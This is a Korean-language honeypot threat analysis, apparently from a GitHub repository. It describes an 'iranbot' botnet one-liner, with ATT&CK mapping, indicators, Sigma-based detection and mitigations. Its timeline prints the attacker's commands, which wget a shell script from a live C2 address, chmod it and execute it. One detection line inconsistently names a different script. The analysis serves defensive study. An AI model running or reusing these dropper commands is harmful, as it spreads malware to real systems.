

# 🛡️ Attack Analysis: Iranbot Malware One-liner Deployment

## 1. 개요 (Executive Summary)
본 분석은 Cowrie 허니팟에서 탐지된 `iranbot` 악성코드의 특징적인 **원샷 페이로드(One-liner Payload)** 배포 수법을 다룹니다. 공격자는 세미콜론(`;`)을 사용하여 환경 정리, 다운로드, 권한 부여, 실행을 단일 명령어로 수행하였으며, 자신의 시그니처 문자열을 남기는 특징을 보였습니다.

- **분석 일시:** 2026-02-09
- **공격자 IP:** `45.153.34.52` (네덜란드, VMHeaven.io)
- **위협 수준:** Critical (Automated Botnet Infection)
- **타겟 서비스:** Telnet / SSH (Cowrie Honeypot)

## 2. TTP 분석 (MITRE ATT&CK Matrix)
공격자의 행위를 MITRE ATT&CK 프레임워크에 기반하여 분류한 결과입니다.

| 전술 (Tactics) | 기법 ID | 기법명 (Technique) | 상세 행위 |
|:---|:---|:---|:---|
| **Execution** | T1059.004 | Unix Shell | 세미콜론(`;`)을 이용한 멀티 커맨드 실행 |
| **Persistence** | T1105 | Ingress Tool Transfer | 외부 C2 서버에서 `cat.sh` 다운로드 |
| **Defense Evasion** | T1070.004 | File Deletion | `rm -rf`를 이용한 기존 파일 및 흔적 제거 |
| **Discovery** | T1057 | Process Discovery | `ps` 명령어를 통한 프로세스 구동 확인 |

## 3. IoC (Indicators of Compromise)
본 공격과 관련된 주요 침투 지표입니다.

| 유형 | 값 (Value) | 비고 |
|:---|:---|:---|
| **IPv4** | `45.153.34.52` | C2 서버 및 페이로드 호스팅 |
| **URL** | `http://45.153.34.52/cat.sh` | 악성 쉘 스크립트 다운로드 경로 |
| **File Name** | `cat.sh` | Iranbot 관련 배포 스크립트 |
| **Signature** | `iranbot_was_here` | 공격자 고유 식별 문자열 |

## 4. 공격 타임라인 및 분석 (Attack Lifecycle)

제공된 [`sample.json`](./sample.json) 로그에 따르면, 공격자는 단일 세션 내에서 세미콜론(`;`)을 이용해 다음의 공격 명령어를 체인 형태로 즉시 실행했습니다.

| 단계 | 명령어 (Input) | 분석 및 의도 |
|:---|:---|:---|
| **Step 1** | `echo ... iranbot_was_here` | 공격 성공 여부 표시 및 고유 시그니처 남김 (Footprinting) |
| **Step 2** | `rm -rf iran.*` | 기존 흔적 제거 및 파일 충돌 방지 (Clean-up) |
| **Step 3** | `wget http://45.153.34.52/cat.sh` | 외부 C2 서버로부터 쉘 스크립트 페이로드 다운로드 |
| **Step 4** | `chmod 777 cat.sh` | 다운로드된 파일에 완전한 실행 권한 부여 |
| **Step 5** | `./cat.sh telnet` | 페이로드 실행 및 후속 공격(Scan 등) 프로세스 기동 |
| **Step 6** | `ps` | (약 30초 후) 악성 프로세스의 정상 구동 여부 확인 |

### 실제 탐지 화면 (Cowrie Dashboard)

> **비고:** 공격자는 명령어를 개별적으로 입력하지 않고 하나의 라인에 통합하여 전송했습니다. 이는 자동화된 스크립트를 통한 고속 감염 시도로 판단됩니다.

## 5. 탐지 전략 (Detection Strategy)

본 사례는 공격의 개별 지표뿐만 아니라 행위의 선후 관계를 모두 포괄하는 **계층형 탐지(Layered Detection)** 모델을 적용합니다.

### A. 표준 이벤트 탐지 (Standard/Atomic Detection)
공격의 각 단계에서 발생하는 개별적인 위험 신호를 독립적으로 식별합니다.

* **경로 진입 탐지 ([`lnx-susp-writable-paths.yml`](../../sigma_rules/standard/lnx-susp-writable-paths.yml))**: `/tmp` 등 쓰기 권한이 열린 디렉토리로 이동하여 공격 거점을 마련하는 행위를 포착합니다.
* **도구 활용 탐지 ([`lnx-susp-download-tools.yml`](../../sigma_rules/standard/lnx-susp-download-tools.yml))**: 시스템 내장 도구(`wget`)를 이용한 비정상적인 아웃바운드 페이로드 수신을 식별합니다.
* **실행 및 은닉 탐지 ([`lnx-susp-exec-cleanup.yml`](../../sigma_rules/standard/lnx-susp-exec-cleanup.yml))**: `chmod 777`을 통한 권한 상승 및 `./ur0a.sh` 실행 행위를 탐지합니다.

---

### B. 상관관계 분석 (Correlation/Behavioral Detection)
개별 행위들이 조합되어 실제 침투 시나리오를 완성할 때 `Critical` 알람을 생성합니다.

* **파일명**: [`corr-lnx-classic-dropper.yml`](../../sigma_rules/correlation/corr-lnx-classic-dropper.yml)
* **탐지 로직**: 
    1.  동일 세션 내에서 **경로 진입**(`lnx-susp-writable-paths`) 확인
    2.  5분(Timespan) 이내에 **페이로드 다운로드**(`lnx-susp-download-tools`) 발생
    3.  즉시 **실행 권한 부여 및 구동**(`lnx-susp-exec-cleanup`) 완료
* **효과**: 단순히 `wget`을 사용하거나 `cd /tmp`를 수행하는 정상 관리자 행위와 차별화하여, **확정적 감염 시나리오**만을 정확히 타격합니다.

## 6. 대응 권고 사항
- `/tmp`, `/var/tmp` 등 공용 쓰기 권한 폴더에 `noexec` 옵션을 적용하여 바이너리 실행 차단.
- `wget`, `curl` 등 아웃바운드 통신 도구의 비정상적인 사용 및 원격지 IP 모니터링 강화.
- 알려진 C2 서버 IP(`45.153.34.52`)에 대한 방화벽 아웃바운드 차단 조치.

---
**Authored by**: [@BISHOP1027](https://github.com/BISHOP1027)